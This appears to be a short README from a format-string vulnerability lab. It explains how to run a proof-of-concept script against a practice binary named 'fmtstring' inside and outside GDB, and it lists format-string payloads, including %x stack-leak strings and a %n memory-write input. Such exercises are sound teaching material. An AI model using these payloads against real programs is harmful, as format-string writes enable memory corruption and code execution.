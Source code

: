 # Usages

Inside GDB: `run $(./poc.py)`

Outside GDB: `./fmtstring $(./poc.py)`

### Other things to try!

(outside of GDB)
```
./fmtstring AAAA.%4$x
./fmtstring AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHH.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x
```

(inside of GDB)
```
r 'AAAA.%x%x%16x%n
```
